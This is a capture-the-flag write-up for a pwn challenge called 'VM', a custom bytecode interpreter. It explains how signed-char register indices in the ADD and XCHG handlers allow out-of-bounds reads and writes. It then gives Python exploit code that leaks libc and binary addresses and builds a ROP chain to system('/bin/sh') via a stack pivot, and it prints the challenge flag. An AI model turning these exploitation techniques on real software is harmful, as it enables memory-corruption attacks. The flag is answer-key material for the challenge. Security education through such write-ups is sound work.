


# VM

`Carixo` @ Iku-toppene

## Introduction

*VM* is a binary that takes input in the form of compiled "shellcode" written in a custom ISA.

Alongside the binary, we received documentation that was authored by a hallucinating GPT, leading to some, let's say, inconsistencies...

## Analysis

First of all, The documentation is not entirely accurate. For instance, it mentions a `MOVS` instruction, which doesn't actually exist... sad times.

Anyways, the VM consists of several components: 8 registers (`R0`-`R7`), a pointer to `data` (which includes the instructions and data stored by `STORE/STOREW`), `IP` (the instruction pointer), the size of the data section, and `flags`. So we have a structure that looks something like this:

```c
typedef struct {
    uint64_t  pData;
    int16_t   regs[8];
    int32_t   ip;
    int32_t   size;
    uint32_t  flags;
} vm;
```

The data section is allocated by an `mmap` call with size `0x10000`, meaning that our compiled shellcode cannot exceed `0x10000` bytes. 

Now, onto the instructions we can actually use:

```py
OPCODES = {
    'MOV':    0x01,
    'MOVI':   0x02,
    'LOAD':   0x03,
    'STORE':  0x04,
    'LOADI':  0x05,
    'XCHG':   0x06,
    'LOADW':  0x07,
    'STOREW': 0x08,
    'ADD':    0x10,
    'ADDI':   0x11,
    'SHL':    0x12,
    'SHR':    0x13,
    'JMP':    0x20,
    'JE':     0x21,
    'JO':     0x22,
    'OUT':    0x40,
    'CMP':    0x50,
    'NOP':    0xCC,
    'HLT':    0xFF,
}
```

We continued our investigation, focusing on vulnerabilities that could potentially give us "arbitrary" read or write capabilities. That's when we found some vulnerabilities in disguise:

```c
void op_add_reg_reg(vmStruct *vm,byte op1,char op2)

{
  ushort uVar1;
  ushort uVar2;
  byte bVar3;
  
  if ((op1 < 8) && (op2 < 8)) {
    uVar2 = vm->m_Regs[op2];
    uVar1 = vm->m_Regs[op1];
    vm->m_Regs[op1] = uVar2 + vm->m_Regs[op1];
    bVar3 = *(byte *)&vm->m_Flags & 0xfb;
    if (CARRY2(uVar2,uVar1) != false) {
      bVar3 = *(byte *)&vm->m_Flags | 4;
    }
    *(byte *)&vm->m_Flags = bVar3;
    return;
  }
  fwrite("Error: Invalid register in ADD_REG_REG\n",1,0x27,stderr);
  free_memory(&vm->m_pData);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
The `ADD` instruction adds two registers (specified by operand 1 and operand 2) and stores the result in the register designated by the first operand. However, there’s a subtle vulnerability here: the the second operand (`op2`) is defined as a `char` meaning it's **signed** . This allows us to pass a negative value as operand 2, which causes `uVar2` to point to an out-of-bounds location in the register array. This vulnerability allows us to read bytes located up to **128 bytes** (or 16 addresses) before the start of the registers array, enabling arbitrary reads within that range.

```c

void op_xchg_reg_reg(vmStruct *vm,char op1,byte op2)

{
  int16_t iVar1;
  
  if ((op1 < 8) && (op2 < 8)) {
    iVar1 = vm->m_Regs[op1];
    vm->m_Regs[op1] = vm->m_Regs[op2];
    vm->m_Regs[op2] = iVar1;
    return;
  }
  fwrite("Error: Invalid register in XCHG_REG_REG\n",1,0x28,stderr);
  free_memory(&vm->m_pData);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
We identified the same vulnerability in the `XCHG` instruction, but this time with the **first operand**. This means we can also use `XCHG` for arbitrary reads and writes within the same 128-byte range.

An important note: one can notice that the return address is stored right before the `vm` struct, specifically right before the `data` pointer in the `vm` struct.


Thanks to GPT-o1 and @misi, we developed a [compiler](./code/asmer.py) that allows us to write instructions directly. The compiler then compiles these instructions into the appropriate bytecode.

To simplify the shellcode creation, we implemented some helper functions (which I refined a bit after the CTF):

```py
def set_r(code, registers, values):
    for i in range(len(registers)):
        code += f"""
            MOVI {registers[i]}, {values[i]}
        """
    return code

def add_r(code, registers, values):
    for i in range(len(registers)):
        code += f"""
            ADDI {registers[i]}, {values[i]}
        """
    return code

def read_r(code, registers, offset):
    code = set_r(code, registers, [0]*len(registers))
    for i in range(len(registers)):
        code += f"""
            ADD {registers[i]}, {(offset * 4 - (4 - i)) % 2**8}
        """
    return code
```

- The `set_r` function initializes the specified registers in `registers` with the corresponding values in `values`.

- The `add_r` function increments the values in the specified registers by the corresponding immediate values in `values`.

- The `read_r` function exploits the `char` vulnerability to read memory at an address specified by `offset` into the specified registers. It first sets all registers in `registers` to zero, then uses the `ADD` instruction to increment each register to the target address, allowing for negative offsets using `% 2**8`.


## Exploitation
Since the return address is located immediately before the `data` pointer, we quickly though about writing a ROP chain in the `data` section and then performing a stack pivot to execute it. We found a convenient `pop rsp; ret` gadget in libc.

Our first task is to load the libc base address into four consecutive registers (from the set of eight available registers). To do this, we read the address located at offset `-13`, which is a libc address, and then use the `ADDI` vulnerability to subtract the offset from the leaked address, to get libc base.

```py
code = read_r(code, [0, 1, 2, 3], -13)
code = add_r(code, [0, 1], [(-596383 % 2**16), -((596383) >> 16) % 2**16]) # set libc base
```

To make it easier to write the ROP chain directly into the `data` section, we created another helper function:
```py
def write_rop(code, offset, addr):
    for i in range(4):
        code += f"""
            MOVI {4+i}, {((addr)>> i*16) & 0xffff}
            ADD {4+i}, {i}
            STORE {4+i}, {offset*8+2*i}
            SHR {4+i}, 8
            STORE {4+i}, {offset*8+2*i+1} 
        """
    return code
```
The function helps break down a 64-bit address (`addr`) into chunks that can be stored in the `data` section byte-by-byte. We decided to use the `STORE` instruction instead of `STOREW` because of endianess. 

Then we just created a pwntools `ROP()` object to create a ROP chain (with a lot of `ret` instructions to make `rsp` higher so that functions can create their stack frames):

```py
rop = ROP(libc)
rop.raw("A"*8)
for i in range(401): rop.raw(rop.ret.address)
rop.system(next(libc.search(b"/bin/sh\x00")))
a = rop.chain()
```
```py
for i in range(0, len(a), 8):
    code = write_rop(code, i//8, u64(a[i:i+8])) # write rop chain in data
```

After writing the ROP chain in the `data` section, we realized that we forgot that the `XCHG` instruction only allows us to modify 2 bytes in the return address, not the full 8 bytes. This meant that our original plan to pivot the stack with the `pop rsp; ret` gadget in libc was unfortunately useless (kinda).

After a bit of thinking we decided to try using a `pop` gadget to load the `data` pointer into a x86_64 register, and then use the vm registers `R0`-`R3` as part of our chain, since these registers are located right after the `data` pointer. Unfortunately, this is where exhaustion after 2 days of CTFing and a lack of sleep caught up with us. We got stuck and didn't get a solve during the CTF. However, with a good amount of sleep, we managed to solve it pretty quickly post-CTF. 

The math wasn't exactly mathing toward the end of the CTF, but after some rest, the math started mathing again. To make things easier, we found the base address of the binary by "leaking" a return address and then subtracting an offset. Then, we added a `pop rbp; ret` offset

```py
code = read_r(code, [4, 5, 6, 7], -1)
code = add_r(code, [4, 5], [(-4887 % 2**16), -((4887) >> 16) % 2**16]) # set elf base
code = add_r(code, [4, 5], [(pop_rbp % 2**16), (pop_rbp >> 16) % 2**16]) # set R4 and R5 to pop rbp & 0xffff
```
The plan is to overwrite the stored return address to point to a `pop rbp; ret` gadget, which will load the `data` pointer into `rbp`. From there, we can set up `R0`-`R3` as a `leave; ret` gadget to set `rsp` to `rbp`, pivoting the stack to the `data` section with our ROP chain (the things we did earlier was therefore not that useless).

```asm
; leave is equivalent to:
mov rsp, rbp
pop rbp
```
```py
code = add_r(code, [0, 1], [(leave_ret % 2**16), (leave_ret >> 16) % 2**16]) # set R0 and R1 to libc base + (leave & 0xffff)
code = read_r(code, [4, 5, 6, 7], -1)
```
Then we can call the `XCHG` instruction to overwrite its return address so it points to `pop rbp; ret` by overwriting the last 2 bytes:
```py
code += f"XCHG {-8 % 2**8}, 4" # overwrite saved rip to pop rbp
```
Then we have [solve](./code/solve.py).



**FLAG: EPT{089827a37a3d45a8dba5a7003f524739}**

NOTE: we do bruteforce a bit because of the carry in the `ADD` instructions.

